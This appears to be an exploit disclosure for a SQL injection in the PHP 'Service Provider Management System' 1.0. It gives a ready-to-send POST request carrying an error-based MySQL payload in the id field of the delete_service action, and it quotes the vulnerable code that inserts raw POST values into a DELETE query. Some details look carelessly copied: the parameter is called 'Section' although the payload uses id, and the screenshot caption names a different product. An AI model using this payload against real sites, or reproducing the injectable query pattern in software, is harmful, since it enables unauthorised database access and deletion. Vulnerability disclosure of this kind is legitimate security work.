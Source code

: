 ### Exploit Title: Service Provider Management System - SQL injections
### Date: 2023-05/11
### Exploit Author: xiahao@webray.com.cn
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/download-code?nid=16501&title=Service+Provider+Management+System+using+PHP+and+MySQL+Source+Code+Free+Download
### Version: 1.0
### Tested on: macOs 13.3.1 (a) + phpstudy


# 1./classes/Master.php
/classes/Master.php SQL injection exists for parameter Section

### Sample request POC #1

```
POST /classes/Master.php?f=delete_service HTTP/1.1
Host: 10.211.55.3:8001
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded
Content-Length: 114

id='+AND+GTID_SUBSET(CONCAT(0x717a6a7071%2Cmd5(1)%2C(SELECT+(ELT(8125%3D8125%2C1)))%2C0x71707a7071)%2C8125)--+jKyA
```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/raw/main/imgs/1683792001887.jpg "AC Repair and Services System - SQL injections")

### Related Codes /classes/Master.php
...
function delete_service(){
	extract($_POST);
	$del = $this->conn->query("DELETE FROM `service_list` where id = '{$id}'");
	if($del){
		$resp['status'] = 'success';
		$this->settings->set_flashdata('success'," Service successfully deleted.");
	}else{
		$resp['status'] = 'failed';
		$resp['error'] = $this->conn->error;
	}
	return json_encode($resp);

}
...
```
